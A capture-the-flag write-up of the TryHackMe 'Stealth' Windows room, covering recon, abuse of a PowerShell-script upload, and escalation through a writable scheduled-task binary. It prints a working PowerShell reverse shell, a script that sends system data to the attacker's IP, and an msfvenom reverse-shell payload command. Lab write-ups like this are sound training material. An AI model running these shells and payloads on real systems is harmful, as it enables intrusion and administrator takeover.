



## Room Overview

| Difficulty | Platform | Room | Topics |
|------------|----------|------|--------|
| Medium | TryHackMe | [Stealth](https://tryhackme.com/room/stealth) | TODO |

## Room description

*"Use your evasion skills to pwn a Windows target with an updated defence mechanism."*

> Are you stealthier enough to evade all the updated security measures of the target?*


## Target

For readability, I use `stealth` throughout this write-up. The hostname was mapped to the current TryHackMe target IP in `/etc/hosts`.

## Reconnaissance

The target shows many open ports:

```console
nmap -sV stealth 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-30 16:15 +0200
Nmap scan report for stealth (10.146.178.224)
Host is up (0.061s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  http          PHP cli server 5.5 or later
8080/tcp open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
8443/tcp open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.36 seconds
```

I can see lots of http services, ans some ports related to RPC (remote procedure calls) and SMB (file and printer services).


## Enumeration

I visited the http services via browser.

Ports 5985, 8000, 8443 and 47001 don't show much at a first glance and I postpone further enumeration for later.
Port 8080 is more interesting -- it shows a web frontend for a *PowerShell Script Analyser*.




## Vulnerability Analysis

Let's see what we can do with the upload function for `ps1` scripts.
I start a receiver with `nc -lvnp 4444`, using my VPN's IP address (`tun0`):

```powershell
$my_vpn_ip = "192.168.146.19"
$client = New-Object System.Net.Sockets.TcpClient($my_vpn_ip,4444)
$stream = $client.GetStream()

# Write/read file
$writefile = "C:\Windows\Temp\stealth-test.txt"
"hello from stealth" | Out-File $writefile

$msg = "`n--- FILE CONTENT ---`n" + (Get-Content $writefile -Raw)
$data = [Text.Encoding]::UTF8.GetBytes($msg)
$stream.Write($data, 0, $data.Length)

# whoami
$msg = "`n--- WHOAMI ---`n" + (whoami | Out-String)
$data = [Text.Encoding]::UTF8.GetBytes($msg)
$stream.Write($data, 0, $data.Length)

# Directory
$msg = "`n--- USERS ---`n" + (Get-ChildItem C:\Users | Out-String)
$data = [Text.Encoding]::UTF8.GetBytes($msg)
$stream.Write($data, 0, $data.Length)

$stream.Close()
$client.Close()
```

I immediately receive a connection and a list of interesting files for the user `evader`.
One file `C:/Users/evader/Desktop/encoded_flag` sticks out.
Adapting the script to print and sending the file shows its base64 encoded content:

```
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----
```

Decoded:

```
You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php
``` 

but visiting this URL results in:



So the next step is to look for logfiles.


## Initial Access

So far the analyser does not seem to stop PS1 scripts from doing anything. Let's try whether it accepts a reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TcpClient("192.168.146.19",4444)
$stream = $client.GetStream()
[byte[]]$buffer = 0..65535|%{0}

while(($n = $stream.Read($buffer,0,$buffer.Length)) -ne 0) {
    $cmd = ([Text.Encoding]::ASCII).GetString($buffer,0,$n)
    $output = try {
        Invoke-Expression $cmd 2>&1 | Out-String
    } catch {
        $_ | Out-String
    }
    $prompt = $output + "PS " + (Get-Location).Path + "> "
    $data = [Text.Encoding]::ASCII.GetBytes($prompt)
    $stream.Write($data,0,$data.Length)
}

$stream.Close()
$client.Close()
```

It works without further ado, and I find myself as `hostevasion\evader` with a PowerShell console.
Searching for a file `asdasdadasdjakjdnsdfsdfs.php` does not yield any results.

`Get-ChildItem C:\ -Recurse -File | Where-Object {$_.Name -match 'asdasdadasdjakjdnsdfsdfs.php'}`

Looking around the folders I can access as `evader` (filesystem enumeration), I find a logfile at

`C:\Users\evader\Documents\Task\log.txt`

which seems to refer to other files: another `log.txt` and `vulnerable.ps1`.
I delete this logfile, but revisiting `http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php` does not show any differences.

After some more investigation in the filesystem, I can access another logfile `C:\xampp\htdocs\uploads\log.txt` which contains a list of file extensions (exe, ps1).
Deleting this file and checking the php webpage again reveals the first flag.




## Privilege Escalation

For the next flag, the description tells: *What is the content of the root level flag?*
So I need to evelate my privileges.
For that I review a TryHackMe room for [Windows privilege Escalation](https://tryhackme.com/room/windowsprivesc20).
And going through the suggested approaches, I find a *scheduled task* that looks vulnerable -- here some excerpts of the commands I used to find and check the task:

Finding tasks:

```console
PS C:\xampp\htdocs\uploads> schtasks

Folder: \
TaskName                                 Next Run Time          Status         
======================================== ====================== ===============
MyTHMTask                                N/A                    Ready          
```

Checking some details (it's run by `Administrator`)

```console
PS C:\xampp\htdocs\uploads> schtasks /query /tn MyTHMTask /fo list /v

MyTHMTask
Run As User:                          Administrator
Task To Run:                          C:\xampp\DebugCrashTHM.exe
```

Check whether we can overwrite the executable:

```console
PS C:\Users\evader\Documents> icacls C:\xampp\DebugCrashTHM.exe
C:\xampp\DebugCrashTHM.exe BUILTIN\Users:(I)(F)
                           NT AUTHORITY\SYSTEM:(I)(F)
                           BUILTIN\Administrators:(I)(F)
                           HOSTEVASION\evader:(I)(F)
```

I don't have to wait until the task is executed by another trigger -- I can trigger it manually via

`schtasks /run /tn MyTHMTask`

So I create a payload via `msfvenom` to receive a reverse shell started by `Administrator`:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.146.19 LPORT=4445 -f exe -o DebugCrashTHM.exe`

I rename the binary to `DebugCrashTHM.ps1`, upload it via the website, and replace the original task binary `C:\xampp\DebugCrashTHM.exe` with the payload.

```console
PS C:\xampp> copy htdocs/uploads/DebugCrashTHM.ps1 .
PS C:\xampp> ren DebugCrashTHM.ps1 DebugCrashTHM.exe
```

```console
PS C:\xampp> schtasks /run /tn MyTHMTask
SUCCESS: Attempted to run the scheduled task "MyTHMTask".
```

```console
$ nc -lvnp 4445
Listening on 0.0.0.0 4445
whoami
Connection received on 10.113.170.44 50323
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
hostevasion\administrator

C:\Windows\system32>
```

Eventually I find the second (and last) flag in `flag.txt`:

```console
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

09/04/2023  03:09 PM    <DIR>          .
09/04/2023  03:09 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
08/08/2023  03:46 PM    <DIR>          flag
07/29/2023  03:54 PM                24 flag.txt
09/04/2023  12:25 PM    <DIR>          Process Hacker 2
               3 File(s)          1,105 bytes
               4 Dir(s)  13,599,707,136 bytes free
```


## Lessons Learned and Acknowledgements

I am leaving most of the (futile) efforts away, but as always, these findings were not always straightforward.
In particular I spent much time on looking at the many open ports. 
But it seems that, at least initially, going for webserver ports and ignoring other services seems the right approach to work on *TryHackMe* challenges.

I also had a look at other write-ups, and there seem to be several ways to achieve privilege escalation.
For a change, the approach I found first seems to be the most straightforward and simple. 
